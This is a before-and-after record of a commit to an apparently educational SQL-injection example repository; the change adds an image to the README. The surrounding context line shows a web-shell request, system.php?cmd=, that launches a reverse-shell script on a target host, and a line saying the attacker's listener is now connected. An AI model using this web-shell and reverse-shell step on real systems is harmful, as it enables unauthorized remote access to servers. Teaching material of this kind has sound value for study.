

Before and after one commit to doublehops/sql-injection-attack-example, a Markdown page: README.md, the part around the change. GitHub-like rendering; pictures changed too: example-image.png (added); blank space fills up the shorter version.

Commit message:
Added example image to README.

```diff
--- a/README.md
+++ b/README.md
@@ -54,6 +54,7 @@ http://192.168.30.99/images/system.php?cmd=/tmp/reverse-shell.py
 The terminal on the host machine waiting for connection should be connected now. Try typing `ls -l /var/www/web` to see the files listed.
 
 
+<img src="example-image.png" alt="example image" />
 
 NOTES
 ----------
```
Also changed, not shown: 1 other file.
